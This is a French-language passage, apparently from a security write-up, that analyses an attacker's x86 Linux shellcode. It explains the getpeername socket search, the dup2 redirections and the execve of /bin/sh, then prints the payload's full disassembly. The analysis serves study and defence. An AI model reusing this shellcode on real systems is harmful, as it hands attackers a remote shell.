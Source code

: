 Le second appel sytème est getpeername (EAX = 368). Cet appel système renvoie les informations sur un socket qui serait ouvert. L'attaquant appelle getpeername sur un file descriptor qu'il incrémente jusqu'à trouver la socket ouverte sur laquelle il est connecté. 

Le troisième appel système DUP2(EAX = 63) avec comme paramètre EBX= 0, 1, 2 copie respectivement stdin, stdout, stderr. C'est ainsi que l'attaquant peut envoyer des commandes, récupérer les retours, et récupérer les messages d'erreur.

Le dernier appel système est Execve (EAX = 11) qui appelle la fonction donnée en argument. En l'occurence l'attaquant éxécute /bin/sh pour lancer un shell.

**Payload de l'attaquant désassemblée**

```
.data:00000081 90                               nop
.data:00000082 eb 71                            jmp    0x000000f5
.data:00000084 5d                               pop    ebp
.data:00000085 31 c0                            xor    eax,eax
.data:00000087 31 db                            xor    ebx,ebx
.data:00000089 31 c9                            xor    ecx,ecx
.data:0000008b 31 d2                            xor    edx,edx
.data:0000008d 31 ff                            xor    edi,edi
.data:0000008f 31 f6                            xor    esi,esi
.data:00000091 b0 22                            mov    al,0x22
.data:00000093 89 c6                            mov    esi,eax
.data:00000095 b0 c0                            mov    al,0xc0
.data:00000097 b1 01                            mov    cl,0x1
.data:00000099 66 c1 e1 0c                      shl    cx,0xc
.data:0000009d b2 03                            mov    dl,0x3
.data:0000009f 4f                               dec    edi
.data:000000a0 cd 80                            int    0x80
.data:000000a2 89 c1                            mov    ecx,eax
.data:000000a4 31 ff                            xor    edi,edi
.data:000000a6 b3 02                            mov    bl,0x2
.data:000000a8 89 ca                            mov    edx,ecx
.data:000000aa 80 c1 04                         add    cl,0x4
.data:000000ad 31 c0                            xor    eax,eax
.data:000000af 66 b8 70 01                      mov    ax,0x170
.data:000000b3 fe c3                            inc    bl
.data:000000b5 c6 02 10                         mov    BYTE PTR [edx],0x10
.data:000000b8 89 39                            mov    DWORD PTR [ecx],edi
.data:000000ba cd 80                            int    0x80
.data:000000bc 39 f8                            cmp    eax,edi
.data:000000be 75 ed                            jne    0x000000ad
.data:000000c0 8b 01                            mov    eax,DWORD PTR [ecx]
.data:000000c2 3c 02                            cmp    al,0x2
.data:000000c4 75 e7                            jne    0x000000ad
.data:000000c6 89 ca                            mov    edx,ecx
.data:000000c8 31 c9                            xor    ecx,ecx
.data:000000ca 31 c0                            xor    eax,eax
.data:000000cc b0 3f                            mov    al,0x3f
.data:000000ce cd 80                            int    0x80
.data:000000d0 41                               inc    ecx
.data:000000d1 b0 3f                            mov    al,0x3f
.data:000000d3 cd 80                            int    0x80
.data:000000d5 41                               inc    ecx
.data:000000d6 b0 3f                            mov    al,0x3f
.data:000000d8 cd 80                            int    0x80
.data:000000da 31 c0                            xor    eax,eax
.data:000000dc 89 6d 08                         mov    DWORD PTR [ebp+0x8],ebp
.data:000000df 89 45 0c                         mov    DWORD PTR [ebp+0xc],eax
.data:000000e2 88 45 07                         mov    BYTE PTR [ebp+0x7],al
.data:000000e5 b0 0b                            mov    al,0xb
.data:000000e7 89 eb                            mov    ebx,ebp
.data:000000e9 8d 4d 08                         lea    ecx,[ebp+0x8]
.data:000000ec 8d 55 0c                         lea    edx,[ebp+0xc]
```